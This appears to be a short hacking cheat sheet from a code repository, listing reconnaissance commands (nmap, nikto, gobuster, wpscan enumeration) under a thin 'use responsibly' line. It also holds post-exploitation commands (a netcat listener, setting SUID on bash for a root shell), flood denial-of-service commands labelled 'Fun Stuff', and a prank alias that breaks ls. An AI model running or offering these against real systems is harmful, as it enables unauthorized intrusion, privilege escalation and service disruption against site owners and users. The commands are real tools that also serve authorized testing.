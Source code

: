 # Hacking Stuff

This document outlines various commands for reconnaissance and fun hacking-related activities. Use responsibly and only on systems you have permission to test.

---

## Recon Stuff

Commands for gathering information about a target domain or system.

```bash
rustscan -a domain.com
urlfinder -d domain.com -o domain.txt
nikto -h domain.com
amass enum -d domain.com
curl -i domain.com
whois domain.com
whatweb domain.com
sudo nmap -sS -sV -T4 domain.com
gobuster dir -u domain.com -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u domain.com -w /usr/share/seclists/sublist3r -d domain.com
tshark -Y 'http.request.method == "GET"' -i eth0
wpscan --url domain.com --enumerate u
wpscan --url domain.com --enumerate vp,vt --plugins-detection
nc -lvnp 1234
sudo chmod +s /bin/bash
bash -p

## Fun Stuff


ping -s 1300 -f domain.com
hping3 -S -V --flood domain.com
hping3 --traceroute -V -1 domain.com
cat /dev/urandom
alias ls="cat /dev/urandom"

